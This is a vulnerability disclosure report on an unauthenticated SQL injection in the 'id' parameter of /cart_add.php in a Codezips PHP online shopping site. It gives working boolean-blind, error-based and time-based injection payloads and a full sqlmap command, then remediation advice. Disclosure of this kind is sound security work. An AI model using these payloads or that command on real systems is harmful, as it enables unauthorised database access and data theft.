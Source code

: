 # <font style="color:rgb(31, 35, 40);">Codezips Online Shopping Website In PHP With Source Code V1.0 /cart_add.php SQL injection</font>
# NAME OF AFFECTED PRODUCT(S)
+ Online Shopping Website In PHP With Source Code

## Vendor Homepage
+ [homepage](https://codezips.com/php/online-shopping-store-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ takakie

## Vulnerable File
+ /cart_add.php

## VERSION(S)
+ V1.0

## Software Link
+ [Download Source Code](https://codeload.github.com/codezips/online-shopstore-php/zip/master)

# PROBLEM TYPE
## Vulnerability Type
+ SQL injection

## Root Cause
+ A SQL injection vulnerability was found in the '/cart_add.php' file of the 'Online Shopping Website In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter 'id' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION
+ During the security review of "Online Shopping Website In PHP With Source Code", takakie discovered a critical SQL injection vulnerability in the "/cart_add.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type:
+ boolean-based blind
+ errot-base
+ time-based blind

## Vulnerability location:
+ 'id' parameter

## Payload:
```plain
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=3' AND 6547=6547 AND 'Rqbs'='Rqbs

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=3' AND GTID_SUBSET(CONCAT(0x7178767071,(SELECT (ELT(1486=1486,1))),0x7176717671),1486) AND 'umhR'='umhR

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=3' AND (SELECT 1069 FROM (SELECT(SLEEP(5)))gLZU) AND 'jJjU'='jJjU
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```plain
sqlmap -r test.txt --risk=3 --level=5 --batch --threads=10 --dbms=mysql --random-agent --tamper=space2comment
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740491436209-bce641d3-4b2b-4f89-9ebc-224b3b5710f4.png)

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740491447394-b0a2c7ef-baa2-451b-9e17-5671521e405b.png)

# Suggested repair
1. **Use prepared statements and parameter binding:**

Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**

Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**

Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**

Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

